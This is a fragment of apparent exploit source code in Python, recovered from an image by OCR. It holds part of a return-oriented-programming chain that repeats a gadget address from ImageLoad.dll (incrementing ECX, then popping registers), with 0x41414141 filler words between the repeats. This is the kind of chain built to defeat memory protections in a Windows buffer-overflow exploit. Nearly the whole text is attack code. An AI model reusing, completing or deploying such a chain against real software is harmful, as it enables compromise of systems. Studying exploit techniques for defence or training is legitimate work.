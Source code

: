 ```python
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
```